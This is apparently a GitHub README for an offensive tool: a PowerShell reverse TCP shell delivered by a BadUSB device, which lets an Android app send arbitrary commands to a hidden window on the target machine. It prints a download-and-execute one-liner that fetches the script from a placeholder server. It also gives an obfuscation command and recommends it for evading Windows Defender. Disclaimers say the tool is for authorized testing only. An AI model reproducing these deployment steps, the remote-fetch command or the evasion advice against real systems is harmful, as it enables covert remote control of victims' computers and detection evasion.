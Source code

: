 
# Reverse TCP PowerShell Shell via BadUSB

A simple PowerShell-based reverse TCP shell designed to be executed via a BadUSB device, connecting back to your Android device running the **rtcp_application** APK. This project was built for educational and testing purposes only.

> **⚠️ Disclaimer:**  
> This tool is for **educational purposes only**. Do not use it on machines you do not own or have explicit permission to test. Unauthorized use of this tool is illegal and unethical.

---

## 📱 Project Overview

- **Script Type**: PowerShell reverse shell  
- **Trigger Method**: Executed via BadUSB (e.g., Rubber Ducky)  
- **Target Receiver**: Android phone running a Unity-based app (`rtcp_application.apk`)  
- **UI & App Note**: The APK is a very basic prototype with poor UI and minimal error handling. It's only meant to demonstrate proof of concept.

---

## 🛠 How It Works

1. **Start the Listener**  
   Launch the `rtcp_application.apk` on your Android phone. It will immediately begin listening for incoming connections.

2. **Deploy the Script**  
   Use a BadUSB device to run the `script.ps1` on a target machine.  
   Recommended method:
   ```powershell
   iex (New-Object Net.WebClient).DownloadString('http://yourserver.com/script.ps1')
   ```

3. **Establish Connection**  
   Once the script is executed, it sends a `hello` message to the host (your phone). The app will display a test command along with an input box and send button.

4. **Send Commands**  
   You can now send any PowerShell command from your phone. Commands will execute on the client machine, and results are returned in the app.

> Note: The PowerShell window is *hidden* but not *fully backgrounded*. It will appear minimized.

---

## 🔄 One-Time Connection

- Each connection is valid only once. If the client disconnects or shuts down, the script must be re-run.
- The IP address in the PowerShell script **must match** your phone’s current IP (shown in the app interface).

---

## 🧪 Testing Notes

- The script can run with **Windows Defender active** (at the time of writing), but any competent security tool or admin will easily detect it.
- This is a **testing and proof-of-concept** tool. It is **not stealthy or production-grade**.

---

## 🔐 Obfuscation (Optional)

To avoid detection from Defender or other tools, you can use [JoelGMSec's Invoke-Stealth](https://github.com/JoelGMSec/Invoke-Stealth) to obfuscate the script:

```powershell
.\Invoke-Stealth.ps1 .\script.ps1 -t All
```

> You can also try specific techniques individually rather than combining them all.

---

## ⚠️ Legal & Ethical Notice

This software is intended for **educational use only** on devices **you own** or are **authorized to test**.  
**Do not use this on any third-party systems without written permission.**

---

## 📂 Files in This Repo

| File                 | Description                               |
|----------------------|-------------------------------------------|
| `script.ps1`         | The main reverse TCP PowerShell payload   |
| `README.md`          | Project documentation (this file)         |
| `rtcp_application.apk` | Android app listener (host)            |

---

## 📞 Contact

This project is a personal experiment and has no formal support. For educational queries or testing insights, feel free to open an issue.
```
